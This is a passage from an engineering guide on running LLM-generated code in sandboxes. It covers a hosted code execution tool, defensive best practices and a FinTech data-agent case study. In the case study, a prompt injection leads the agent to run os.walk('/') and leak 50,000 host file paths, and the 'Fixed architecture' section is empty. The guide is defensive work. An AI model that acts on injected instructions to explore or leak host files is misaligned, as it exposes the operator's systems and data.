Use the hosted tool for self-contained data work such as analysis, charts and file conversion, and provision your own sandbox the moment you need network access, GPUs, or package installs. Reach for E2B, Modal or Daytona also when a session must outlive a single task. Anthropic's code execution tool (`code_execution_20250825`, generally available with no beta header) runs Claude's Bash commands and file operations in a container with 1 CPU, 5 GiB RAM, 5 GiB workspace and Python 3.11, and its defining constraint is that internet access is completely disabled — no outbound requests at all, so nothing can be `pip install`ed at runtime and only the pre-installed libraries are available. Data enters through the Files API as a `container_upload` block rather than over the network, and containers are workspace-scoped, checkpointed after about five minutes idle, and expire 30 days after creation. Economics favor it strongly at low volume: billing is per execution time with a 5-minute minimum, 1,550 free hours per organization per month, and $0.05 per container-hour after that, versus per-second compute billing on a self-provisioned microVM. The integration trap to name in an interview is the multicomputer problem — offering the hosted tool alongside your own Bash tool gives Claude two filesystems with no shared state, so the system prompt must say explicitly that files and variables do not carry across environments.

---

## 13. Best Practices

1. Always use a cloud-managed sandbox for LLM-generated code — avoid in-process sandboxes (RestrictedPython) for production.
2. Set execution timeout at both the sandbox level (hard kill) and the SDK call level (soft timeout with error propagation to agent).
3. Truncate all sandbox output at 50KB before returning to the agent — prevents context overflow and token cost explosions.
4. Never inject production secrets (DB passwords, API keys) into sandbox environment variables — use sample data or a dedicated read-only service account.
5. Log every sandbox execution with: user_id, code_hash, execution_time, exit_code, output_size — essential for debugging prompt injections and cost audits.
6. Reuse sandboxes within a session (E2B supports this) — avoid creating a new VM per code execution when running multiple iterations.
7. Set network to blocked by default; explicitly allowlist only what the task requires. A data analysis agent needs no network.
8. Validate structured output from sandboxes (JSON, CSV) before injecting into agent context — malformed output causes cascading parsing errors.
9. Test sandbox escapes as part of your security review — submit known exploit patterns and assert they are blocked.
10. Monitor sandbox cost per user and set per-user budget caps to prevent runaway agents.

---

## 14. Case Study

**Production Data Analysis Agent at a FinTech Company**

**Situation**: A team built an agent that let analysts ask natural language questions about transaction data ("What are the top 10 merchants by volume this quarter?"). The agent generated Pandas/Python code and executed it.

**Initial (broken) implementation**: Code executed with `subprocess.run()` on the application server. Within two weeks: (1) a prompt injection caused the agent to generate `os.walk('/')` that logged 50,000 file paths into the response; (2) a buggy aggregate query consumed 100% CPU for 90 seconds, blocking all other requests; (3) an analyst accidentally triggered code that wrote a temp file to the `/etc/` directory (permissions error, but concerning).

**Fixed architecture**:



**Results**:
- Zero host escapes after migration (sandbox handles all code execution)
- P95 execution latency: 1.8s (200ms sandbox start + 1.6s code execution)
- 3 caught prompt injection attempts in month 1 (all blocked by network ACL)
- Cost: ~$0.0047/query at average 2.4 minutes of sandbox uptime per session (144s x $0.0000325/s for 2 vCPU + 1 GiB)
- Analysts run 200-400 queries/day → $0.94-$1.87/day sandbox cost

**Lesson**: Even E2B's sub-200ms sandbox start is visible when it lands on every follow-up question. Solution: pre-warm one sandbox per active analyst session (keep alive for 5 minutes of inactivity). Reduced perceived latency to near-zero for follow-up questions.
